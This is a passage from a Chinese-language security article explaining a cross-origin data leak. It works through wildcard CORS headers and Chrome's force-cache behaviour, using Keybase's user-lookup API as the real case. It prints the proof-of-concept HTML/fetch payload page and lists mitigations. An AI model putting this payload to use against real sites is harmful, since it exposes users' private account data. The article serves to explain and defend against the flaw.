 如果在Firefox中通过1（2）的模式（即经典CORS漏洞配置问题）则能读取到secret的值：
![28.png](img/article/2020.3.6/28.png)

#### 真实案例
Keybase提供了一个API，该API允许用户对其他用户进行查找，但是没有做token检验。当已登录用户访问该接口时会返回用户的敏感信息。

由于Keybase的CORS规则配置成如下：
```
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET
Access-Control-Allow-Headers: Content-Type, Authorization, Content-Length, X-Requested-With
Access-Control-Allow-Credentials: false
```
所以攻击者可以配合Chrome浏览器缓存问题跨域读取该值，最终payload如下：
```
<html>
<script>
var url = "https://keybase.io/_/api/1.0/user/lookup.json?username={YOUR_USERNAME}";
fetch(url, {
    method: 'GET',
    cache: 'force-cache'
    });
</script>
</html>
```
用户一旦访问该页面，攻击者即可获取到其敏感信息。


#### 一个延伸
以往在测试一些形似jsonp接口却不带callback时可能就只有放弃了，现在可以看看是不是有CORS配置Access-Control-Allow-Origin: *的存在，还有一些app里的H5场景。


#### 总结
CORS如果配置Access-Control-Allow-Origin: *（或者Access-Control-Allow-Origin: hacker.com），攻击者可以通过chrome浏览器的缓存功能（force-cache）读取到用户的敏感信息。

开发者需要设置Access-Control-Allow-Origin: company.com，或者使用“Vary”头部。

普通用户如果没有特殊需求，可以给Chrome浏览器启动添加“--enable-features=SplitCacheByNetworkIsolationKey”参数，或者勾选“Disable cache”。

有两个线上测试环境：
https://victime.docker.bi.tk/
http://87.98.164.31/malicious.html

测试代码打包在files.rar中。

#### 参考信息
```
https://enumerated.wordpress.com/2019/12/24/sop-bypass-via-browser-cache/
https://bugs.chromium.org/p/chromium/issues/detail?id=988319
https://github.com/MayurUdiniya/Chrome-CORS
https://www.freebuf.com/company-information/216754.html
https://www.w3cschool.cn/fetch_api/fetch_api-hokx2khz.html
```